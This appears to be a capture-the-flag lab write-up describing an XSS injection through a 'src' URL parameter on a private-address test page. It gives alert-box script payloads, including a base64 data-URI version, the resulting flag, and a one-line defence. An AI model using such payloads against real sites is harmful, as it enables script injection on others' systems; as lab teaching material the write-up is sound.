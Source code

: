 # NSA XSS Injection

### Tools
Developer Tools from web browser

### How to solve it

1. Firt we access the nsa page and check that it has a address where we can try to run some script
2. http://10.0.0.155/?page=media&src=nsa
3. Then we exchange the nsa for this <script>alert("xss")</script> and this doesnt work because we have to put the prefix data:text/html to execute scripts.
4. Then we try : data:text/html,<script>alert("42")</script> and Boom it works but no flag is given
5.  So now we are close, we just have to change the base to 64 so we convert the script code to base 64 and run again.
6.  http://10.0.0.155/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnNDInKTs8L3NjcmlwdD4=
7.  And then it gives the flag: 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
### How to protect it

Input invalidation is the best way to protect against it and data encoding.

